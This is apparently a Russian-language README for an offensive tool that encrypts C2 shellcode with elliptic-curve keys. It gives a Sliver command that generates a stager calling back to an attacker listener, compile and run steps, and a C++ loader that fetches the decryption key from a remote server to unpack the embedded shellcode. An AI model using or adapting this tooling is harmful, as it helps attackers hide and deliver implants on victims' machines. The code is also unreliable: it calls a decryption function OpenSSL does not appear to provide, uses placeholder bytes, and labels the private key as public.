 ## Этот код поможет вам зашифровать свой shellcode с использованием метода эллиптических кривых.

**Requirements**
g++

if not install

```bash
apt install g++
```

openssl v3.1
sliver(or other c2)
libssl-dev 

```bash
libssl-dev
```

**Подготовка**
Сгенерируйте shellcode в формате **.bin.** Для этого вы можете использовать Bishop Fox Sliver в качестве C2, чтобы создать shellcode:

```bash
sliver> generate stager --lhost ip --lport 8443 --arch amd64 --format shellcode
```

При необходимости вы также можете использовать дополнительные параметры.

Сгенерируйте **.pem** ключи с помощью OpenSSL(prime256v1):

```bash
openssl ecparam -genkey -name prime256v1 -out new-ecc-private.pem
```
```bash
openssl ec -in new-ecc-private.pem -pubout -out new-ecc-public.pem
```

Клонируйте репозиторий с кодом для шифрования:


```bash
git clone github.com/wearetyomsmnv/ec_encoder_cpp
```

## Компиляция кода ##

Скомпилируйте код с помощью g++:

```bash
g++ ec_encoder.cpp -o encrypt_shellcode -lcrypto
```

## Запуск шифрования ##

**Запустите программу для шифрования:**

```bash
./encrypt_shellcode shellcode.bin new-ecc-private.pem new-ecc-public.pem
```

Где:

**shellcode.bin** - это файл с shellcode, полученный из Sliver (имя может отличаться).

**new-ecc-private.pem** - это открытый ключ.

**new-ecc-public.pem** - это открытый ключ.

## Как использовать это в реальном проекте ##

```c++
#include <iostream>
#include <openssl/evp.h>
#include <openssl/ec.h>
#include <openssl/err.h>
#include <openssl/pem.h>
#include <openssl/x509.h>
#include <curl/curl.h>

// Адрес сервера, предоставляющего .pem
static const char* SERVER_URL = "https://example.com/private-key.pem";

// Здесь должен быть ваш зашифрованный шеллкод
static const unsigned char encrypted_shellcode[] = {
    0xYY, 0xYY, 0xYY, ... // Зашифрованный шеллкод в формате байтов
};

// Функция обратного вызова для получения данных с сервера через libcurl
static size_t write_callback(void *contents, size_t size, size_t nmemb, void *userp) {
    std::string *buffer = reinterpret_cast<std::string*>(userp);
    size_t total_size = size * nmemb;
    buffer->append(static_cast<char*>(contents), total_size);
    return total_size;
}

int main() {
    OpenSSL_add_all_algorithms();
    ERR_load_crypto_strings();
    curl_global_init(CURL_GLOBAL_DEFAULT);

    // Инициализация сессии libcurl
    CURL *curl = curl_easy_init();
    if (!curl) {
        std::cerr << "Ошибка при инициализации сессии libcurl" << std::endl;
        return 1;
    }

    // Установка URL для запроса
    curl_easy_setopt(curl, CURLOPT_URL, SERVER_URL);

    // Создание буфера для хранения полученного PEM-файла
    std::string pem_data;

    // Установка функции обратного вызова для записи данных
    curl_easy_setopt(curl, CURLOPT_WRITEFUNCTION, write_callback);
    curl_easy_setopt(curl, CURLOPT_WRITEDATA, &pem_data);

    // Выполнение запроса
    CURLcode res = curl_easy_perform(curl);
    if (res != CURLE_OK) {
        std::cerr << "Ошибка при выполнении запроса: " << curl_easy_strerror(res) << std::endl;
        curl_easy_cleanup(curl);
        return 1;
    }

    // Закрытие сессии libcurl
    curl_easy_cleanup(curl);

    // Преобразование PEM-данных в структуру ключа
    BIO *bio = BIO_new_mem_buf(pem_data.c_str(), -1);
    EC_KEY *key = PEM_read_bio_ECPrivateKey(bio, nullptr, nullptr, nullptr);
    if (!key) {
        std::cerr << "Ошибка при чтении приватного ключа из PEM-данных" << std::endl;
        BIO_free(bio);
        return 1;
    }
    BIO_free(bio);

    // Расшифрование с использованием приватного ключа
    size_t encrypted_len = sizeof(encrypted_shellcode);
    unsigned char decrypted[1024]; // Буфер для расшифрованных данных
    int decrypted_len = ECIES_decrypt(key, encrypted_shellcode, encrypted_len, decrypted, sizeof(decrypted));

    // Вывод расшифрованных данных
    std::cout << "Decrypted Data:" << std::endl;
    for (int i = 0; i < decrypted_len; ++i) {
        std::cout << std::hex << (int)decrypted[i];
    }
    std::cout << std::endl;

    // Освобождение ресурсов
    EC_KEY_free(key);

    // Очистка библиотеки OpenSSL
    ERR_free_strings();
    curl_global_cleanup();

    return 0;
}


```
